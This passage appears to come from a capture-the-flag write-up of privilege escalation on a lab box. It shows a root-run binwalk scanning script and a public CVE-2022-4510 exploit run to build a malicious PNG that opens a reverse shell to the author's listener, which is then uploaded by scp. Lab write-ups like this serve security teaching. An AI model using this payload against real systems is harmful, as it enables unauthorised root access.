 ## Escalate

As user `emily` I can see an interesting process in the `ps fauxww` listing:

```console
root         724  0.0  0.0   6816  3096 ?        Ss   06:51   0:00 /bin/bash /usr/sbin/malwarescan.sh
```

`malwarescan.sh`:

```sh
#!/bin/bash

blacklist=("Executable script" "Microsoft executable")

/usr/bin/inotifywait -m -e create /var/www/pilgrimage.htb/shrunk/ | while read FILE; do
        filename="/var/www/pilgrimage.htb/shrunk/$(/usr/bin/echo "$FILE" | /usr/bin/tail -n 1 | /usr/bin/sed -n -e 's/^.*CREATE //p')"
        binout="$(/usr/local/bin/binwalk -e "$filename")"
        for banned in "${blacklist[@]}"; do
                if [[ "$binout" == *"$banned"* ]]; then
                        /usr/bin/rm "$filename"
                        break
                fi
        done
done
```

`binwalk` is itself vulnerable. I save [the exploit](https://www.exploit-db.com/exploits/51249) and prepare the payload:

```console
$ python ./x.py ./surfperson.png 10.10.16.5 443

################################################
------------------CVE-2022-4510----------------
################################################
--------Binwalk Remote Command Execution--------
------Binwalk 2.1.2b through 2.3.2 included-----
------------------------------------------------
################################################
----------Exploit by: Etienne Lacoche-----------
---------Contact Twitter: @electr0sm0g----------
------------------Discovered by:----------------
---------Q. Kaiser, ONEKEY Research Lab---------
---------Exploit tested on debian 11------------
################################################


You can now rename and share binwalk_exploit and start your local netcat listener.

$ mv bin
bin/                 binwalk_exploit.png

$ mv binwalk_exploit.png x.png

$ scp x.png emily@${t}:
emily@10.10.11.219's password:
x.png
```

